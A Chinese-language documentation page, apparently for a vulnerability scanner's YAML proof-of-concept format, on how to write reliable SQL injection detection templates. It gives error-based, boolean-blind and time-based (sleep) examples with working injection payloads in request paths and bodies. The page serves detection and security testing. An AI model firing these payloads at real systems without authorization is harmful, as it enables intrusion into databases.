 ```yaml
---
title: 'SQL注入'
---
```


对于sql注入相关漏洞的检测，大致分为三种类型，这里分别进行分析

<Warning>测试SQL注入漏洞，无论是哪种类型，都请不要使用`user()`、`version()`等函数来辅助验证漏洞的存在与否。此类规则**太过宽泛**，不同系统之间显示的内容都有不同的可能，在匹配时具有一定的随机性</Warning>

## 有回显注入（error based and other）

有回显的注入检测比较简单，这里以报错注入为例进行讲解

```yaml
name: poc-yaml-test-sqli-echo-based
manual: true
transport: http
set:
    r1: randomInt(8000, 10000)
rules:
    r0:
        request:
            cache: true
            method: GET
            path: /xxx.jsp?id=1%20union%20select%201,2,sys.fn_sqlvarbasetostr(HashBytes('MD5','{{r1}}')),db_name(1),5,6,7
        expression: response.status == 200 && response.body.bcontains(bytes(substr(md5(string(r1)), 0, 31)))
expression: r0()
detail:
    author: chaitin
    links:
        - http://example.com
```

在这类的poc中，至少有一个rule会是关于sql注入的语句，但是对于结果的展示可能并不会在同一个rule中，所以下面分为两个部分讲解审核中需要注意的问题

- 对于存在`sql注入语句`的rule
    1. 对于给出的SQL注入语句
        - 语句正确无误，能够符合目标系统检出对应的漏洞，必要时可以添加一些绕过方法增加检出率
        - 对于需要验证的变量，`一定`要使用对应sql中能够使用的编码函数处理后再进行匹配，绝对不可以使用`固定值`或者`原内容`
- 对于`验证注入结果`的rule
    1. 注意返回值的编码问题，需要与注入语句中所给出的内容相同
    2. 注意返回值的长度，在部分系统中，返回内容的长度和起始位置与直接编码的结果并不相同（`updatexml`、`extractvalue` 报错回显结果可能会被截断），这时就需要使用substr等函数截取后再进行匹配

### 模板

[有回显注入](/plugins/practice/poc/Template#ordinary-injection)

## 布尔盲注（boolean based）

布尔盲注与时间盲注相似，都是一定会存在两个包含sql注入语句的rule，这里举例分析

```yaml
name: poc-yaml-test-sqli-boolean-based
manual: true
transport: http
set:
    s1: randomLowercase(5)
    a1: randomInt(1000, 9000)
    a2: randomInt(1000, 9000)
rules:
r0:
    request:
        cache: true
        method: POST
        path: /xxx.cgi
        headers:
            Content-Type: application/x-www-form-urlencoded
        body: USERDBDomains.Domainname=geardomain%27 and {{a1}}={{a2}} and %27{{s1}}%27=%27{{s1}}
        follow_redirects: true
    expression: response.body.bcontains(b"id=\"lblWarning\">User authentication Failed")
r1:
    request:
        cache: true
        method: POST
        path: /xxx.cgi
        headers:
            Content-Type: application/x-www-form-urlencoded
        body: USERDBDomains.Domainname=geardomain%27 and {{a1}}={{a1}} and %27{{s1}}%27=%27{{s1}}
        follow_redirects: true
    expression: response.body.bcontains(b"id=\"lblWarning\">User Login Failed for SSLVPN User")
expression: r0() && r1()
detail:
    author: Chaitin
    links:
        - http://example.com
```

大体的验证方法与实时间盲注相同，这里说明下几个需要注意的点
- 所匹配的页面内容一定是最终的内容，follow_redirects为true时需要匹配重定向后页面的内容
- 选取的匹配内容一定是条件为真或条件为假时所出现的`特有内容`，两者不可重叠，否则及其容易出现误报的现象
- 在匹配一些关键词的时候，如果r0中匹配了"EMPNAME"，那么r1中就应该写不匹配这个"EMPNAME"的语句，也就是`!response.body_string.contains("EMPNAME")`

### 模板

[布尔盲注](/plugins/practice/poc/Template#bool)

## 时间盲注（time based）

时间盲注的检测要稍微复杂一些，同时存在着因为网络环境等误报漏报的问题，这里举例讲解如何尽可能地减少这种误报

```yaml
name: poc-yaml-test-sqli-time-based
manual: true
transport: http
set:
    randSecond1: randomInt(5, 7)
    randSecond2: randomInt(2, 4)
rules:
    r0:
        request:
            cache: false
            method: GET
            path: /xxx?keyword=%27%2B(select(0)from(select(sleep(0)))v)%2B%27/
        expression: response.status == 200 && response.body_string.contains("xxxxxxx")
        output:
            undelayedLantency: response.latency
    r1:
        request:
            cache: false
            method: GET
            path: /xxx?keyword=%27%2B(select(0)from(select(sleep({{randSecond1}})))v)%2B%27/
            read_timeout: "10"
        expression: response.latency - undelayedLantency >= randSecond1 * 1000 - 500 && response.status == 200 && response.body.bcontains(b"{\"code\":200")
    r2:
        request:
            cache: false
            method: GET
            path: /xxx?keyword=%27%2B(select(0)from(select(sleep({{randSecond2}})))v)%2B%27/
            read_timeout: "10"
        expression: response.latency - undelayedLantency >= randSecond2 * 1000 - 500 && response.status == 200 && response.body.bcontains(b"{\"code\":200")
expression: r0() && r1() && r2()
detail:
    author: Chaitin
    links:
        - http://example.com
```

对于时间盲注来说，我们首先需要保证出了延时的不同，path的其他部分都要保证完全一致。那么当我们发送对应的payload时，至少是能排除掉因为访问路径或者参数的不同所导致的时间差异问题

同时这里分别说明一下基础的三个请求分别所对应的意义
- 第一个请求：延时为0，测出访问对应站点时的基础延时
- 第二个请求：延时一定不为0，且时长定在(5, 7)秒，通过延长一个较长的时间来发现是否发生一个延时，但是这个内容可能收到系统方面相关网络波动的影响分
- 第三个请求：延时一定不为0，且时长一定小于第二个请求中的延时，通过一个较短的时间判断这个延时一定是因为sql注入所发生的

那么依据上边所分析出来的内容，我们可以得到以下的要求

- 在第一条关于注入的rule中
    1. 关于注入的内容
        - 关于request的内容，除时间不同以外，`一定`要与第二条rule中的request信息保持一致
        - sleep的时间一定是`0s`
    2. 关于匹配的expression
        - 符合接口的返回内容即可，**必须**在其中匹配一些特有的返回结果，否则将很有可能产生误报。
    3. 关于output的内容
        - 这条rule一定会有output的内容，其中的变量存储着这一条请求所花费的时间
- 在第二条关于注入的rule中
    1. 关于注入的内容
        - 关于request的内容，除时间不同以外，`一定`要与第一条rule中的request信息保持一致
        - sleep的时间需要设置随机值，同时随机值的最小值一定不能小于`3s`，避免数值过小带来的网络波动问题
    2. 关于匹配的expression
        - 一定需要对访问时间的差值进行比较，确保两个相似请求之间的时间差异全部是由sleep所造成的
        - 同时无特殊的情况下，`建议`除了时间差值的比较之外，其他的内容与第一条相同
- 在第三条关于注入的rule中
    - 这一条的内容与第二条除了时间的取值都相同即可

<Warning>一定要注意添加read_timeout: "10"，不然扫描器会直接不等响应完就根据默认时间直接结束，同时要注意该漏洞的payload是否会被执行多次，造成等待时间翻倍的情况，如果存在，请自行缩短sleep时长，同时提高read_timeout的值</Warning>

<Tip>这里强求对页面中的部分内容进行匹配，目的是为了作为目标系统的指纹，消除网络环境的影响，防止一些不相干的系统造成的误报。同时匹配的内容不用过多，体现出目标系统的独特性即可</Tip>

### 模板

[时间盲注](/plugins/practice/poc/Template#time)